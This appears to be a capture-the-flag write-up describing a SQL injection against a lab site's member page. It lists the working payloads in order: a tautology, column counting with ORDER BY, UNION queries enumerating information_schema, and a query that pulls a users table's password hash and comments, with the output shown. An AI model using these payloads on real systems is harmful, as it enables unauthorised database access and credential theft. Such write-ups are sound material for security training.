 # SQL INJECTION

_/index.php?page=member_

#### Our first injection is:
```
1 OR 1=1
```

#### It display every rows, then we can find how many colums contains the table with ORDER BY
it throw an error the SQL call retrieve 2 columns
```
1 OR 1=1 ORDER BY 3
```

#### We can retreive every table of the db with UNION
```
1 or 1=1 UNION SELECT TABLE_NAME, NULL FROM information_schema.tables
```

#### Then we can find every columns of every tables
```
1 or 1=1 UNION SELECT column_name, table_name FROM information_schema.columns
```

#### List of users table columns
```
user_id
first_name
last_name
town
country
planet
Commentaire
countersign
```

#### We display column Commentaire and countersign
```
1 or 1=1 UNION select countersign, Commentaire FROM users
```

#### And we get the flag !!
```
ID: 1 or 1=1 UNION select countersign, Commentaire FROM users 
First name: 5ff9d0165b4f92b14994e5c685cdce28
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```


